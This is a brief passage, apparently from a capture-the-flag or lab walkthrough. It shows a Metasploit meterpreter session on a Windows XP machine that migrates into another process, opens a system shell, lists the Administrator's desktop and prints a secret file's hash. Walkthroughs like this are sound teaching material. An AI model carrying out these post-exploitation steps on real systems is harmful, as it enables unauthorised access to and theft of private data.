 ```plain
meterpreter > migrate 772
[*] Migrating from 768 to 772...
[*] Migration completed successfully.
meterpreter > shell
Process 1188 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>cd "c:\documents and settings\administrator\desktop\"
cd "c:\documents and settings\administrator\desktop\"

C:\Documents and Settings\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D031-5715

 Directory of C:\Documents and Settings\Administrator\Desktop

03/25/2014  06:56 PM    <:DIR>          .
03/25/2014  06:56 PM    <:DIR>          ..
02/04/2013  03:25 PM                32 secret.txt
               1 File(s)             32 bytes
               2 Dir(s)     249,012,224 bytes free

C:\Documents and Settings\Administrator\Desktop>type secret.txt
type secret.txt
ab74f8217d5619acb2b708c7bdc50748
```

Terminated

*Published March 28 2014 at 18:01*
